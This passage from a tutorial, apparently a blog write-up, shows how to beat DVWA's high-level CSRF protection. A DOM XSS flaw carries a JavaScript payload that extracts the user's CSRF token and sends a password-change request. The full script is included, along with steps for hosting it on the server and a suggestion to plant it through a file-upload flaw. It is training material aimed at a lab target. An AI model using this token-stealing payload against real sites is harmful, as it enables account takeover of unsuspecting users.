 ![High Level DVWA CSRF Vulnerability](https://bughacking.com/wp-content/uploads/2021/03/high-1-1.png)

If the request was legit, we would get 200 status code from the server.

On the internet, you might find different solutions for this vulnerability. However, most of them are not valid. The most popular "incorrect" way to exploit this vulnerability, is to create an HTML page, copy the form with a CSRF token, that is used for password changing, After that it should mystically reach the victim. Probably not the best way to exploit DVWA high CSRF vulnerability.

We have to chain vulnerabilities in order to change the password on a high level. The first step would be to get the CSRF token from the page. And for this purpose, we will use a simple script that will be executed by exploiting XSS (DOM) vulnerability. But of course, there are other ways to achieve the same goal, so feel free to experiment.

Code snippet below will be effective in our case. What it does is can be broke down into two parts:

*   First of all, it gets the CSRF token from the page.
*   After that it constructs a GET request to the CSRF vulnerability page (URL is defined in lines 1 and 2) with our new password (defined in line 3) and it adds the CSRF token (line 19) to the final request (line 20).

    var hostname = 'http://10.0.1.42:8081';
    var the_url = hostname + '/vulnerabilities/csrf';
    var pass = 'newpasswd123';
    var regex = /user_token\' value\=\'(.*?)\' \/\>/;
    
    if (window.XMLHttpRequest){
        xmlhttp=new XMLHttpRequest();
    }else{
        xmlhttp=new ActiveXObject("Microsoft.XMLHTTP");
    }
    
    xmlhttp.withCredentials = true;
    var activated = false;
    xmlhttp.onreadystatechange=function(){
        if (xmlhttp.readyState == 4 && xmlhttp.status == 200)
        {
            var text = xmlhttp.responseText;
            var match = text.match(regex);
            var token = match[1];
            var new_url = the_url + '/?user_token=' + token + '&password_new=' + pass + '&password_conf=' + pass + '&Change=Change'
            if(!activated){
                alert('Token that was received: ' + match[1]);
    	    activated = true;
                xmlhttp.open("GET", new_url, false );
                xmlhttp.send();
            }
        }
    };
    xmlhttp.open("GET", the_url, false );
    xmlhttp.send(); 

Now we have to host this script somewhere. Even though it can be hosted virtually anywhere on the public internet, for the sake of simplicity, we can upload this to our Damn Vulnerable Web Application server. Keep in mind that you can exploit another DVWA vulnerability – **File Upload** and try to upload the script. If you are seeking more challenges I encourage you to try to do so. For this example, I will **upload the script named dvwa-high.js to the** **/var/www/html folder** of the DVWA installation. One of the prerequisites for this is to give the script sufficient permissions: **sudo chmod 755 dvwa-high.js**.
